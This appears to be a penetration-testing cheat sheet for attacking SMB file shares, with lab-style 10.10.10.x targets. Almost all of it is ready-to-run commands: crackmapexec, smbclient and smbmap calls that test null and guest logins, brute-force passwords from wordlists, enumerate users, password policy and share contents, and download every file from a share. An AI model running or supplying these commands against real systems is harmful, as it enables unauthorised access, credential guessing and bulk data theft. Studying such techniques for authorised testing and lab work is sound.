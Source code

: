 ## Gaining Access
### Test for Null authentication
```bash
# Using crackmapexec
crackmapexec smb 10.10.10.219 -u '' -p '' --shares

# Using SmbClient
smbclient -N //10.10.10.219/kanban

# Using SmbMap
smbmap -u '' -p '' -H 10.10.10.172
```

### Test for anonymous/guest login
```bash
# Using Smbmap
smbmap -u anonymous -p anonymous -H 10.10.10.172
```

### Password Brute Forcing
```bash
crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
```

***
## Enumeration
```bash
# Enum users
crackmapexec smb 10.10.10.219 -u '' -p '' --users

# Enum Password Policy
crackmapexec smb 10.10.10.219 -u '' -p '' --pass-pol

# Enum files on share and their creation/modification dates
crackmapexec smb 10.10.10.219 -u '' -p '' -M spider_plus
```

***

## Exploitation
### Download all files from share
```bash
# Using smbclient
smbclient -N //10.10.10.219/kanban
recurse ON
prompt OFF
mget *
```